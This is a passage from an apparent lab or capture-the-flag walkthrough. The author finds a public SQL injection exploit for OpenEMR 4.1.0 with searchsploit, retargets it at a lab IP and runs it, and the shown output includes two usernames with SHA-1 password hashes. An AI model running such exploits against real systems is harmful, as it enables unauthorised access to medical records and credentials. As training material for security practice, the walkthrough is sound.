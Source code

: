 I looked for a known vulnerability for this version and a SQL Injection was found.

```console
root@kali:~$ searchsploit openemr 4.1.0
----------------------------------------------------------- --------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- --------------------------
OpenEMR 4.1.0 - 'u' SQL Injection                          | php/webapps/49742.py
Openemr-4.1.0 - SQL Injection                              | php/webapps/17998.txt
----------------------------------------------------------- --------------------------
```

So, I copied the python exploit to my current directory.

```console
root@kali:~$ searchsploit -m php/webapps/49742.py
root@kali:~$ cp 49742.py exp.py
```

## Exploitation
### SQL Injection

I analyzed the script, we just need to replace the IP address with the target machine's ip.

```console
root@kali:~$ sed -i 's/192.168.56.106/192.168.179.163/' exp.py 
root@kali:~$ grep 192 exp.py                                
url = "http://192.168.179.163/openemr/interface/login/validateUser.php?u="
```

I ran the exploit and the credentials of two users were retrieved.

```console
root@kali:~$ python3 exp.py 

   ____                   ________  _______     __ __   ___ ____ 
  / __ \____  ___  ____  / ____/  |/  / __ \   / // /  <  // __ \
 / / / / __ \/ _ \/ __ \/ __/ / /|_/ / /_/ /  / // /_  / // / / /
/ /_/ / /_/ /  __/ / / / /___/ /  / / _, _/  /__  __/ / // /_/ / 
\____/ .___/\___/_/ /_/_____/_/  /_/_/ |_|     /_/ (_)_(_)____/  
    /_/
    ____  ___           __   _____ ____    __    _               
   / __ )/ (_)___  ____/ /  / ___// __ \  / /   (_)              
  / /_/ / / / __ \/ __  /   \__ \/ / / / / /   / /               
 / /_/ / / / / / / /_/ /   ___/ / /_/ / / /___/ /                
/_____/_/_/_/ /_/\__,_/   /____/\___\_\/_____/_/   exploit by @ikuamike 

[+] Finding number of users...
[+] Found number of users: 2
[+] Extracting username and password hash...
admin:3863efef9ee2bfbc51ecdca359c6302bed1389e8
medical:ab24aed5a7c4ad45615cd7e0da816eea39e4895d
```

Before cracking we need to identify the password hash, the tool detected a possible SHA-1.
